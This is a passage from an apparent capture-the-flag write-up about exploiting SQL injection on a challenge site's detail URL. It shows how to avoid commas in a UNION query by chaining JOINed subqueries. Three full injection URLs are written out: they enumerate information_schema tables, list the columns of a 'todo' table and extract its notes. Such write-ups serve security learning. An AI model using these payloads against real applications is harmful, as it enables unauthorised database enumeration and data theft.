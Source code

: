 This error was totally unexpected! ... A dateFormat error here?<br/> 
Yes, because we need to extract exactly two Date as the 2 last columns. <br/>

## Second Contstraint

By re-analyzing the piece of code, it turns out clearly a second constraint also:<br/>
we cannot use any comma in our UNION sql injection !!!!!!   =:-0<br/>

Do you remember? Every comma in the url will mess up with the concatenation of the params in the sql query!
<br />

## Recap
we have to execute a UNION without using commas for the second query .... mmmmhhhh<br />
After diving into it and some extra tests ... we found the solution by using the JOIN ! :)

## The SQL 
[(here it is our super query)](https://staging.jackfrosttower.com/detail/2,3%20UNION%20SELECT%20*%20FROM%20(SELECT%20null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20'encontact')%20as%20q1%20join%20(SELECT%20null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20'encontact')as%20q2%20join%20(SELECT%20null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20'encontact')as%20q3%20join%20(SELECT%20TABLE_NAME%20from%20information_schema.tables%20WHERE%20table_schema%20=%20'encontact')as%20q4%20join%20(SELECT%20null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20'encontact')as%20q5%20join%20(SELECT%20date_created%20FROM%20uniquecontact%20WHERE%20id=33)as%20q6%20join%20(SELECT%20date_update%20FROM%20uniquecontact%20WHERE%20id=33)as%20q7%20where%201=1%20--) <br/>

Yep! it works!<br />
And from there we can see there is a new table in the database: the TODO table,
so we are near to our goal: <b>[Goal](ch12_goal)</b>
<br/>

## others SQL

We still have to do just two query:<br/> 
1- to the information.schema COLUMNS in order to know the fields of the new TODO table<br/>
2- extract the date from the TODO table<br/>


<a href="https://staging.jackfrosttower.com/detail/1,3%20UNION%20SELECT%20*%20FROM%20(%20SELECT%20null%20)%20as%20q1%20join%20(SELECT%20null%20)%20as%20q2%20join%20(SELECT%20null%20)%20as%20q3%20join%20(SELECT%20null%20)%20as%20q4%20join%20(SELECT%20COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_SCHEMA%20=%20'encontact'%20AND%20TABLE_NAME%20=%20'todo'%20)%20as%20q5%20join%20(SELECT%20date_created%20FROM%20uniquecontact%20WHERE%20id=1)%20as%20q6%20join%20(SELECT%20date_update%20FROM%20uniquecontact%20WHERE%20id=1)%20as%20q7%20--)">query information schema</a>
<br />
<a href="https://staging.jackfrosttower.com/detail/1,3%20UNION%20SELECT%20*%20FROM%20(%20SELECT%20null%20)%20as%20q1%20join%20(SELECT%20null%20)%20as%20q2%20join%20(SELECT%20null%20)%20as%20q3%20join%20(SELECT%20null%20)%20as%20q4%20join%20(SELECT%20note%20FROM%20todo)%20as%20q5%20join%20(SELECT%20date_created%20FROM%20uniquecontact%20WHERE%20id=1)%20as%20q6%20join%20(SELECT%20date_update%20FROM%20uniquecontact%20WHERE%20id=1)%20as%20q7%20%E2%80%93)">query SELECT from TODO</a>
